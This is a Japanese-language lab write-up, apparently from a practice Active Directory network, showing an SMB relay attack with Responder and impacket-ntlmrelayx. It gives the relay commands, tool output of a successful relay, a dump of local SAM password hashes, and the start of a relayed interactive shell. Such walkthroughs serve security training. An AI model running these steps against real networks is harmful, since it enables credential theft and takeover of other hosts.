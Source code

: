 ### SAMの取得
impacket-ntlmrelayxという名前で実行する
```sh
impacket-ntlmrelayx -tf targets.txt -smb2support 
```

最後に、Responderに捕捉されるようなイベントを起こす
ここでは、ドメイン参加ホストから、攻撃者のKaliのマシンにアクセスする
![](https://i.imgur.com/IXpTlqR.png)

ドメイン参加ホスト上ではアクセスできないと表示される
![](https://i.imgur.com/eVUkdpf.png)

しかし、実際にはアクセスできていて、smbリレー攻撃が行えた
Responder
![](https://i.imgur.com/TKcilGo.png)

impacket-ntlmrelayxの結果
![](https://i.imgur.com/hQ5xgdJ.png)

ポイント
- fcastleとしてログインしている、自身hのホスト(192.168.56.102)にはリレーできない
```sh
[*] SMBD-Thread-5 (process_request_thread): Connection from MARVEL/FCASTLE@192.168.56.102 controlled, attacking target smb://192.168.56.102
[-] Authenticating against smb://192.168.56.102 as MARVEL/FCASTLE FAILED
```

しかし、fcastleは他のホスト(192.168.56.103)でも管理者権限として存在していて、そのホスト(192.168.56.103)に対するsmbリレー攻撃は成功している
```sh
[*] SMBD-Thread-6 (process_request_thread): Connection from MARVEL/FCASTLE@192.168.56.102 controlled, attacking target smb://192.168.56.103
[*] Authenticating against smb://192.168.56.103 as MARVEL/FCASTLE SUCCEED
```

そして、192.168.56.103のSAM ハッシュを取得できている
```sh
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:c10aa40e86d4992a473a589f70e80704:::
peterparker:1003:aad3b435b51404eeaad3b435b51404ee:5835048ce94ad0564e29a924a03510ef:::
[*] Done dumping SAM hashes for host: 192.168.56.103
```


### シェルの取得
Responderの準備をするまでは一緒
ここでは、impacket-ntlmrelayxのオプションを使って、シェルを取得する
- オプションで`-i`をつけて実行する
```sh
impacket-ntlmrelayx -tf targets.txt -smb2support -i
```
